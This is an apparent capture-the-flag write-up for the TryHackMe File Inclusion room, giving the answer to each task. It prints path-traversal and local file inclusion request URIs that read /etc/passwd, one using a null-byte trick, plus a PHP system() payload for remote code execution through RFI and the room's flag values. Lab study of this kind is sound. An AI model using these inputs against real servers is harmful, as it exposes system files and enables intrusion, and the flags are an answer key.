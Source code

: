 # File Inclusion

{% embed url="https://tryhackme.com/room/fileinc" %}
https://tryhackme.com/room/fileinc
{% endembed %}

## Task 3 Path Traversal <a href="#title" id="title"></a>

#### What function causes path traversal vulnerabilities in PHP?

{% hint style="success" %}
`file_get_contents`
{% endhint %}

## Task 4 Local File Inclusion - LFI

#### Give Lab #1 a try to read **/etc/passwd**. What would the request URI be?

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-04-13.png>)

{% hint style="success" %}
`/lab1.php?file=/etc/passwd`
{% endhint %}

#### In Lab #2, what is the directory specified in the include function?

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-08-23.png>)

{% hint style="success" %}
`includes`
{% endhint %}

## Task 5 Local File Inclusion - LFI #2

* The %00 trick is fixed and not working with PHP 5.3.4 and above.

#### Give Lab #3 a try to read /etc/passwd. What is the request look like?

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-13-43.png>)

{% hint style="success" %}
`/lab3.php?file=../../../../etc/passwd%00`
{% endhint %}

#### Which function is causing the directory traversal in Lab #4?

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-21-30.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-20-47.png>)

{% hint style="success" %}
`file_get_contents`
{% endhint %}

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-18-36.png>)

#### Try out Lab #6 and check what is the directory that has to be in the input field?

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-22-56.png>)

{% hint style="success" %}
`THM-profile`
{% endhint %}

#### Try out Lab #6 and read **/etc/os-release**. What is the **VERSION\_ID** value?

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-23-34 (1).png>)

{% hint style="success" %}
`12.04`
{% endhint %}

## Task 6 Remote File Inclusion - RFI

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-23-34.png>)

## Task 8 Challenge

#### Capture Flag1 at /etc/flag1

{% hint style="success" %}
`F1x3d-iNpu7-f0rrn`
{% endhint %}

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-53-19.png>)

#### Capture Flag2 at /etc/flag2

![](<../../.gitbook/assets/Screenshot from 2022-03-30 23-56-23.png>)

{% hint style="success" %}
`c00k13_i5_yuMmy1`
{% endhint %}

#### Capture Flag3 at /etc/flag3

![](<../../.gitbook/assets/Screenshot from 2022-03-31 06-47-12.png>)

{% hint style="success" %}
`P0st_1s_w0rk1in9`
{% endhint %}

#### Gain RCE in **Lab #Playground** /playground.php with RFI to execute the hostname command. What is the output?

```bash
<?php system("hostname"); ?>
```

![](<../../.gitbook/assets/Screenshot from 2022-03-31 00-28-55.png>)

{% hint style="success" %}
`lfi-vm-thm-f8c5b1a78692`
{% endhint %}
